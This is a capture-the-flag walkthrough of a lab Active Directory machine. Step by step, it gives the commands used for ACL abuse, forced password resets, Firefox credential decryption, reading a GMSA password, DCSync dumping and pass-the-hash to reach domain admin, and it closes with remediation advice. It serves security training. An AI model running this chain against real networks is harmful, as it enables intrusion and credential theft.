StellarComms
- Platform: CTF Challenge
- Difficulty: Medium
- Target: 10.1.248.71
- Domain: stellarcomms.local
- Key Topics: Active Directory ACL Abuse, Firefox Credentials, GMSA Exploitation
Overview
Stellar Communications, a regional telecommunications provider, has engaged us to conduct a covert internal network penetration test. The client wants to assess the resilience of their Active Directory infrastructure against insider threats and compromised VPN endpoints.
Our objective is to simulate a compromised remote worker scenario, enumerate Active Directory misconfigurations, pivot through the internal network, and ultimately compromise high-value targets including the domain controller.
Initial Access: Valid VPN access with a known username (junior.analyst), password unknown.
Goal: Complete domain compromise and extract Administrator credentials.
Reconnaissance
[Step 1] Port Scanning
We initiated a comprehensive port scan to identify open services on the target domain controller:
$ nmap -p- -T4 -sC -sV -Pn -o nmap_scan 10.1.248.71Key findings:
- FTP (21/tcp) - Microsoft ftpd (Anonymous login allowed)
- DNS (53/tcp) - Simple DNS Plus
- HTTP (80/tcp) - Microsoft IIS httpd 10.0
- Kerberos (88/tcp) - Confirms Active Directory
- SMB (445/tcp) - SMB signing enabled and required
- LDAP (389/tcp) - Active Directory LDAP
- WinRM (5985/tcp) - Available for remote management
- RDP (3389/tcp) - Microsoft Terminal Services
The presence of anonymous FTP access on a domain controller (DC-STELLAR.stellarcomms.local) is unusual and warrants immediate investigation.
FTP Enumeration
[Step 2] Anonymous FTP Access
Connecting to the FTP service with anonymous credentials revealed accessible directories:
$ ftp 10.1.248.71
# Username: anonymous
# Password: (press enter)
Three directories were discovered:
Docs/- Documentation filesIT/- IT-related content (empty)Pics/- Pictures directory (empty)
[Step 3] Extracting FTP Contents
To efficiently download all files without corruption, we configured binary mode and disabled interactive prompts:
ftp> binary
200 Type set to I.
ftp> prompt off
Interactive mode off.
ftp> cd Docs
250 CWD command successful.
ftp> mget *[Step 4] Document Analysis
The Docs directory yielded several critical intelligence files:
Browser_policy.pdf
This document revealed a mandatory browser policy:

Key Takeaway: Only Mozilla Firefox ESR (Extended Support Release) is approved and configured for internal portals. This suggests that users may have stored credentials in Firefox profiles - a valuable target for credential harvesting.
LEO_2A_Report.txt
This report disclosed an internal subdomain:

Discovery: portal.stellarcomms.local - An internal web portal requiring authentication.
LEO_3B_Report.txt
Security requirements documentation:
Operators must log in with StellarComms domain accounts.
Multi-factor authentication is enforced for uplink operations.This indicates domain account authentication and MFA requirements for certain operations.
LEO_5C_Report.txt
Password policy documentation:
Credentials must be rotated every 30 days as per StellarComms
security standards. Any login attempt with expired credentials
will be logged and locked automatically.Important: The organization enforces a 30-day password rotation policy with automatic account lockout for expired credentials. We should be cautious about password spraying to avoid locking accounts.
Stellar_UserGuide.pdf
The most valuable discovery - a default password disclosed in the user guide:

Default password: Galaxy123!
This represents a common security misconfiguration where default credentials are documented but not properly rotated by end users.
Initial Foothold
[Step 5] Testing Default Credentials
We tested the default password against the known username using NetExec:
$ nxc smb 10.1.248.71 -u 'junior.analyst' -p 'Galaxy123!'
Success! The credentials junior.analyst:Galaxy123! are valid.
Active Directory Enumeration
[Step 6] BloodHound Data Collection
With valid domain credentials, we used NetExec to collect comprehensive AD data for BloodHound analysis:
$ nxc ldap 10.1.248.71 -u 'junior.analyst' -p 'Galaxy123!' \
--bloodhound --collection All --dns-server 10.1.248.71BloodHound ingestion and analysis revealed a multi-step privilege escalation path through ACL abuse.
[Step 7] Attack Path Discovery
BloodHound identified a privilege escalation chain involving three critical relationships:
Step 1: WriteOwner on STELLAROPS-CONTROL Group

junior.analyst user has WriteOwner permissions on the STELLAROPS-CONTROL group. This ACL allows us to change the group's owner to ourselves. When you own an object in Active Directory, you can modify its DACL (Discretionary Access Control List) to grant yourself additional permissions. This is a common AD privilege escalation vector.
Step 2: ForceChangePassword on OPS.CONTROLLER

Members of the STELLAROPS-CONTROL group have ForceChangePassword permissions on the ops.controller user account. This allows any group member to reset the user's password without knowing the current password.
Step 3: Remote Management Users Membership

The ops.controller user is a member of the Remote Management Users group, which grants WinRM access to the domain controller. This provides an authenticated shell once we control the account.
Complete Attack Chain:
junior.analyst (WriteOwner)
→ STELLAROPS-CONTROL group (add self as member)
→ ForceChangePassword on ops.controller
→ WinRM access via Remote Management UsersPrivilege Escalation: Part 1
[Step 8] Exploiting WriteOwner ACL
Using Impacket's owneredit.py, we changed the owner of the STELLAROPS-CONTROL group to junior.analyst:
$ owneredit.py -action write -new-owner 'junior.analyst' \
-target 'StellarOps-Control' \
'stellarcomms.local'/'junior.analyst':'Galaxy123!'Output:
[*] Current owner information below
[*] - SID: S-1-5-21-1085439814-3345093241-3808503133-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=stellarcomms,DC=local
[*] OwnerSid modified successfully!The group's owner was successfully changed from Domain Admins to junior.analyst.
[Step 9] Modifying Group DACL
Now as the owner, we used dacledit.py to grant ourselves WriteMembers permissions:
$ dacledit.py -action 'write' -rights 'WriteMembers' \
-principal 'junior.analyst' \
-target-dn 'CN=STELLAROPS-CONTROL,CN=USERS,DC=STELLARCOMMS,DC=LOCAL' \
'stellarcomms.local'/'junior.analyst':'Galaxy123!'Output:
[*] DACL backed up to dacledit-20260129-122456.bak
[*] DACL modified successfully![Step 10] Adding Junior.Analyst to STELLAROPS-CONTROL
Using BloodyAD, we added junior.analyst to the group:
$ bloodyAD -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' \
--host 10.1.248.71 add groupMember 'STELLAROPS-CONTROL' 'junior.analyst'
[+] junior.analyst added to STELLAROPS-CONTROL[Step 11] Forcing Password Reset on OPS.CONTROLLER
Now as a member of STELLAROPS-CONTROL, we can force a password change on ops.controller:
$ bloodyAD -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' \
--host 10.1.248.71 set password 'ops.controller' 'Zerotrace123!'
[+] Password changed successfully![Step 12] Verification
Testing the new credentials:
$ nxc smb 10.1.248.71 -u 'ops.controller' -p 'Zerotrace123!'
Authentication successful! We now control the ops.controller account.
Establishing WinRM Session
[Step 13] WinRM Access
Since ops.controller is a member of the Remote Management Users group, we can establish a WinRM session:
$ evil-winrm -i 10.1.248.71 -u 'ops.controller' -p 'Zerotrace123!'[User Flag]
Navigating to the user's desktop:
*Evil-WinRM* PS C:\Users\ops.controller\Desktop> type user.txt
User flag captured!
Credential Harvesting: Firefox Profile
[Step 14] Locating Firefox Profile
Based on the browser policy documentation, we know Firefox ESR is the approved browser. Firefox stores saved credentials in the user's profile directory.
Enumerating Firefox profiles:
*Evil-WinRM* PS C:\> cd C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles
*Evil-WinRM* PS> ls
Two profiles exist:
67wyfsfs.defaultv8mn7ijj.default-esr(ESR profile - contains data)
- logins.json: Contains encrypted username/password pairs
- key4.db (or key3.db on older versions): Master encryption key database
[Step 15] Extracting Credential Files
Using Evil-WinRM's download function:
*Evil-WinRM* PS> cd C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\v8mn7ijj.default-esr
*Evil-WinRM* PS> download logins.json
*Evil-WinRM* PS> download key4.dbCreate a local directory and place both files:
$ mkdir user_firefox_db
$ mv logins.json user_firefox_db/
$ mv key4.db user_firefox_db/[Step 16] Decrypting Firefox Credentials
Using the firepwd tool:
$ python firepwd/firepwd.py -d user_firefox_db
globalSalt: b'b775cce9871837920e459cb351f41a262a61a7ee'
password check? True
decrypting login/password pairs
Using 3DES (32-byte key, truncated to 24)
http://portal.stellarcomms.local:b'astro.researcher',b'[REDACTED]'Discovered Credentials:
- URL:
http://portal.stellarcomms.local - Username:
astro.researcher - Password: [REDACTED]
[Step 17] Validating New Credentials
$ nxc smb 10.1.248.71 -u 'astro.researcher' -p '[REDACTED]'
Authentication successful! The astro.researcher account is valid.
Privilege Escalation: Part 2
[Step 18] BloodHound Analysis of Astro.Researcher
Analyzing the astro.researcher account in BloodHound revealed another privilege escalation path:

The astro.researcher user has:
- WriteDacl permission on the
eng.payloaduser account - The
eng.payloaduser has ReadGMSAPassword permission on theSATLINK-SERVICE$GMSA account
ReadGMSAPassword permissions can retrieve the current password, which is essentially a hash that can be used for authentication.
[Step 19] Abusing WriteDacl
Using BloodyAD to grant ourselves GenericAll permissions on eng.payload:
$ bloodyAD --host 10.1.248.71 -d stellarcomms.local \
-u 'astro.researcher' -p '[REDACTED]' \
add genericAll 'eng.payload' 'astro.researcher'
[+] astro.researcher has now GenericAll on eng.payloadGenericAll is a superset permission that includes all possible rights on an object, including the ability to reset passwords, modify attributes, and read all properties.
[Step 20] Forcing Password Reset on ENG.PAYLOAD
$ bloodyAD --host DC-STELLAR.stellarcomms.local -d stellarcomms.local \
-u 'astro.researcher' -p '[REDACTED]' \
set password 'eng.payload' 'Zerotrace123@!'
[+] Password changed successfully!We now control the eng.payload account with the password Zerotrace123@!.
Domain Compromise
[Step 21] Reading GMSA Password
Using the compromised eng.payload account, we can now read the GMSA password for SATLINK-SERVICE$:
$ bloodyAD --host DC-STELLAR.stellarcomms.local -d stellarcomms.local \
-u 'eng.payload' -p 'Zerotrace123@!' \
get object 'SATLINK-SERVICE$' --attr msDS-ManagedPassword
distinguishedName: CN=SATLINK-SERVICE,CN=Managed Service Accounts,DC=stellarcomms,DC=local
msDS-ManagedPassword.NT: [REDACTED]
msDS-ManagedPassword.B64ENCODED: [REDACTED]SATLINK-SERVICE$ account has DCSync rights or equivalent privileges to extract the entire domain database. The GMSA hash can be used directly for Pass-the-Hash authentication.
[Step 22] NTDS.dit Extraction
Using Impacket's secretsdump with the GMSA hash to extract the NTDS.dit database:
$ impacket-secretsdump -hashes :'[REDACTED]' \
-dc-ip DC-STELLAR.stellarcomms.local \
'stellarcomms.local/satlink-service$@10.1.248.71'Output (partial):
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
junior.analyst:1103:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
ops.controller:1104:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
astro.researcher:1105:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
eng.payload:1106:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::We now have the NTLM hash for the Administrator account!
[Step 23] Administrator Access via Pass-the-Hash
Using Evil-WinRM with the Administrator hash:
$ evil-winrm -i 10.1.248.71 -u Administrator -H [REDACTED][Root Flag]
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Root flag captured! Complete domain compromise achieved.
Attack Chain Summary
- Anonymous FTP Access - Discovered documentation with default credentials
- Default Password Discovery - Found Galaxy123! in user guide
- junior.analyst compromise - Authenticated with default credentials
- WriteOwner ACL abuse - Changed owner of STELLAROPS-CONTROL group
- Add junior.analyst to STELLAROPS-CONTROL - Granted WriteMembers to self
- ForceChangePassword on ops.controller - Reset password to gain control
- WinRM access as ops.controller - User Flag obtained
- Firefox credential extraction - Decrypted stored credentials from browser
- astro.researcher compromise - Used extracted Firefox credentials
- WriteDacl abuse on eng.payload - Granted GenericAll permissions
- GenericAll → Force password reset - Compromised eng.payload account
- ReadGMSAPassword on SATLINK-SERVICE$ - Retrieved GMSA hash
- NTDS.dit extraction via DCSync - Dumped entire domain database
- Administrator hash extraction - Obtained Domain Admin credentials
- Pass-the-Hash to Administrator - Root Flag obtained
Key Vulnerabilities Identified
1. Anonymous FTP Access on Domain Controller
Risk: Critical
Issue: Sensitive documentation including default credentials was accessible via anonymous FTP.
Remediation: Disable anonymous FTP access and remove FTP service from domain controllers.
2. Default Credentials Not Rotated
Risk: High
Issue: The default password Galaxy123! was documented but never changed by the end user.
Remediation: Enforce password changes on first login and remove default credentials from documentation.
3. Excessive ACL Permissions
Risk: Critical
Issue: Low-privilege users had WriteOwner, WriteDacl, and ForceChangePassword permissions on privileged accounts.
Remediation: Review and remediate ACL misconfigurations using tools like BloodHound and PingCastle. Follow the principle of least privilege.
4. Saved Credentials in Firefox
Risk: Medium
Issue: Domain credentials stored in Firefox profiles without master password protection.
Remediation: Enforce Firefox master passwords via GPO and implement credential management policies.
5. GMSA Password Readable by Non-Service Accounts
Risk: Critical
Issue: Regular user accounts had ReadGMSAPassword permissions on privileged service accounts.
Remediation: Restrict GMSA password reading to only the computers/services that require them. Regularly audit msDS-GroupMSAMembership attributes.
6. Privileged GMSA Account
Risk: Critical
Issue: The GMSA account had DCSync privileges, allowing complete domain database extraction.
Remediation: Apply least privilege principles to service accounts. Service accounts should not have domain-wide replication rights unless absolutely necessary.
Tools Used
- nmap - Network reconnaissance and port scanning
- NetExec (nxc) - SMB authentication testing and BloodHound data collection
- BloodHound - Active Directory relationship mapping and attack path identification
- Impacket owneredit.py - WriteOwner ACL exploitation
- Impacket dacledit.py - DACL modification
- Impacket secretsdump.py - NTDS.dit extraction via DCSync
- BloodyAD - Active Directory privilege abuse (password resets, ACL modification, GMSA reading)
- Evil-WinRM - Windows Remote Management client for shell access
- firepwd - Firefox credential decryption tool
Lessons Learned
For Pentesters
- Always enumerate thoroughly - The anonymous FTP access provided critical intelligence that enabled the entire attack chain
- BloodHound is essential - Manual ACL enumeration would have been extremely time-consuming. BloodHound quickly identified the multi-hop privilege escalation path
- Browser credential harvesting - Don't overlook browser profiles. Organizations that standardize on specific browsers often have users saving domain credentials
- GMSA accounts are high-value targets - If you can read a GMSA password, check what permissions that service account has. They often have elevated privileges
- Chain multiple low-risk findings - Each individual misconfiguration (WriteOwner, WriteDacl, ForceChangePassword) might seem minor, but chaining them together leads to complete domain compromise
For Defenders
- Principle of Least Privilege - Review and remove unnecessary ACL permissions. Users should not have WriteOwner or WriteDacl on security groups
- Secure Default Credentials - Never document default passwords in accessible locations. Enforce password changes on first login
- Monitor ACL Changes - Implement monitoring for DACL modifications, especially on privileged groups and accounts
- GMSA Hardening - Restrict ReadGMSAPassword permissions and ensure GMSA accounts follow least privilege principles
- Credential Storage Policies - Implement browser master passwords and consider credential management solutions to prevent plaintext storage
- Service Hardening - Domain controllers should not run unnecessary services like FTP. Minimize the attack surface
Conclusion
The StellarComms machine provided an excellent demonstration of modern Active Directory exploitation techniques. The attack chain required:
- Thorough enumeration and OSINT collection
- Understanding of Active Directory ACL abuse techniques
- Creative credential harvesting from non-traditional sources
- Knowledge of GMSA architecture and exploitation
This machine serves as a valuable training ground for both offensive and defensive security professionals, showcasing realistic AD misconfigurations and the importance of proper security governance in Windows environments.
Walkthrough completed on: 2026-01-29 | Zerotrace